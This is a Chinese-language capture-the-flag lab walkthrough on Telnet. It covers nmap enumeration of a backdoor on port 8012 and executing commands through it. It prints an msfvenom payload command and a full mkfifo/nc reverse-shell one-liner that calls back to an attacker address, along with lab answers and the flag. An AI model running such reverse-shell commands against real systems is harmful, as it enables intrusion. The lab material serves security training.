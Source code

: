 ```yaml
---
title: 常见的网络服务-Telnet
createTime: 2024/11/16 19:34:46
permalink: /penetration/pjibfh9x/
---
```


Telnet是一种应用程序协议（`application protocol`  ），它允许您使用telnet客户端连接到托管telnet服务器的远程计算机并在其上执行命令。
Telnet 以明文形式发送所有消息，并且没有特定的安全机制。因此，在许多应用程序和服务中，Telnet 在大多数实现中已被 SSH 取代。
## Telnet 使用

```bash
telnet [ip] [port]
```

>[!TIP]
>**telnet 窗口执行命令，需要在命令执行前添加`.RUN`**

:::  details  什么是telnet？
**答案**： `application protocol`
:::

:::  details   什么慢慢取代了 Telnet？
**答案**： `ssh`
:::
:::  details   如何连接到端口 23 上 IP 为 10.10.10.3 的 Telnet 服务器？
**答案**： `telnet 10.10.10.3 23`
:::
:::  details  缺少什么，意味着所有 Telnet 通信都是明文的？
_提示：现代互联网使用什么来安全通信？_
**答案**：`encryption`
:::

## Telnet枚举（Enumerating）

我们已经看到了密钥枚举如何利用配置错误的网络服务。然而，可能微不足以利用的漏洞并不总是突然出现在我们面前。因此，尤其是在列举网络服务时，我们需要彻底使用我们的方法。

让我们以通常使用的方式开始，即端口扫描，以尽可能多地了解有关目标计算机的服务、应用程序、结构和操作系统的信息。使用[NMAP](5.Network_NMAP.md)和标签 `-A` 和 `-p-` 扫描计算机。

- `-A`：将操作系统检测、版本检测、脚本扫描和 Traceroute 合二为一（噪声大）。
- `-p-`：启用所有端口的扫描，而不仅仅是前 1000 个端口。


:::  details  有多少端口在此及其开启？
**答案**：`1`
让我们从使用 Nmap 扫描机器开始：
```bash
sudo nmap -p- 10.10.86.243


Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:43 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
8012/tcp open  unknown
MAC Address: 02:3C:80:9F:77:B3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.55 seconds

```
:::

:::  details  哪个端口是开启的？
**答案**：`8012`
:::
:::  details  这个端口是未分配的，但任然给出了他正在使用的协议类型，是什么协议？
**答案**：`TCP`
:::
:::  details 不用`-p-`参数，扫描结果中有几个端口开启？
**答案**：`0`
:::

**在这里，我们看到通过将 telnet 分配给非标准端口，它不是 nmap 扫描的公共端口列表或前 1000 个端口的一部分。在列举时尝试每个角度很重要，因为您在此处收集的信息将为您的开发阶段提供信息。**



:::  details 根据返回信息，我们认为这个端口可以来干什么？
**答案**：`abackdoor`
:::
:::  details  它会属于谁？
**答案**：`Skidy`
:::

```bash{10}
sudo nmap  -sV -p8012  10.10.86.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:50 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00019s latency).

PORT     STATE SERVICE VERSION
8012/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8012-TCP:V=7.93%I=7%D=7/22%Time=669E559B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20command
SF:s\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\
...
```



## Telnet 漏洞利用

Telnet 作为一种协议，由于我们之前讨论的原因，它本身是不安全的。它缺乏加密，因此所有通信都通过明文发送，并且在大多数情况下访问控制不佳。但是，Telnet 客户端和服务器系统存在 CVE，因此在利用时，您可以在以下位置检查这些 CVE：

- [https://www.cvedetails.com/](https://www.cvedetails.com/)
- [https://cve.mitre.org/](https://cve.mitre.org/)
CVE 是 Common Vulnerabilities and Exposures 的缩写，是公开披露的计算机安全漏洞列表。当有人提到 CVE 时，他们通常是指分配给安全漏洞的 CVE ID 号。
但是，您更有可能发现 telnet 的配置或运行方式存在错误配置，从而允许您利用它。

因此，从我们的枚举阶段，我们知道：
- 此机器上正在运行一个隐藏性很差的 telnet 服务
-  “backdoor”服务本身被标记为 “backdoor”
- 我们可能牵涉到“Skidy”的用户名
使用此信息，让我们尝试访问此 telnet 端口，并将其用作在机器上获得完整反向 shell 的立足点！

#### 连接到 telnet

**什么是反向shell？**

![](assets/8.network_telnet/file-20241116235324.png)

“shell” 可以简单地描述为一段代码或程序，可用于在设备上执行代码或命令。
反向 shell 是一种 shell，其中目标机器与攻击机器通信。攻击机器有一个侦听端口，它通过该端口接收连接，从而实现代码或命令的执行。

:::  details  登陆telnet，我们收到了什么欢迎信息?
**答案：**`SKIDY'S BACKDOOR`

```bash
telnet 10.10.86.243 8012

Trying 10.10.86.243...
Connected to 10.10.86.243.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```
:::

:::  details   尝试运行命令，会有返回信息吗？
**答案：**`N`
```bash
.RUN ls
```
:::
### 验证是否可以执行命令

 嗯......这很奇怪。让我们检查一下我们键入的内容是否作为系统命令执行。

:::  details  在本地主机上启动tcpdump 侦听器，侦听 `ping`操作的`ICMP`流量：`sudo tcpdump local-ip proto \\icmp -i eth0`Telnet 会话中运行“ping [local IP] -c 1” 看看本地是否能够收到`ping`流量？
**答案：** `Y`
```bash
sudo tcpdump ip proto \\icmp -i eth0  # 本地IP
 .RUN ping -c 1 10.10.33.28   # telnet会话窗口执行命令，记得加`.RUN`
```

:::

太好了！这意味着我们能够执行系统命令，并且能够访问我们的本地计算机。现在让我们来找点乐子吧！

### 生成 reverse_shell

**我们将使用 msfvenom 生成反向 shell 有效负载。这将为我们生成并编码一个 netcat 反向 shell。这是我们的语法：**

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

-  `-p` = 有效载荷类型
- `lhost` = 我们的本地主机 IP 地址
- `lport` = 要侦听的端口
- `R` = 以原始格式导出有效负载


:::  details  用`msfvenom` 生成反向`shell` 的payload，`payload`以哪个单词开头 ？
**答案：**`mkfifo`

```bash
msfvenom  -p cmd/unix/reverse_netcat lhost=10.10.33.28  lport=4444 R

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 101 bytes
mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
```
:::
:::: details  成功！flag.txt 的内容是什么？

::: code-group

```bash [本地端口监听]
nc -lvp 4444
```

```bash [远程执行反弹]
.RUN mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
```

```bash [flag]
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
:::
::::


